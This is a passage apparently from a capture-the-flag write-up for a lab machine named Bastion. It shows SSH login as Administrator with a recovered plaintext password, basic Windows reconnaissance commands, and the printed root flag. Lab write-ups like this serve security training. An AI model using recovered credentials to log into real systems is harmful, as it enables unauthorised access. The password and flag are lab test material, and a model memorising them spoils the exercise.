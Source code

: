 Excellent! we got the credential of admin. Then ssh it to capture root flag.

```bash
ssh Administrator@10.10.10.134
thXLHM96BeKL0ER2
```

```cmd
whoami
ipconfig
type Desktop\root.txt
```

```
administrator@BASTION C:\Users\Administrator>type Desktop\root.txt                                                              
d74ea253db9e20643ce3c44cf7e30b2a     
```

![[Bastion-12.png]]

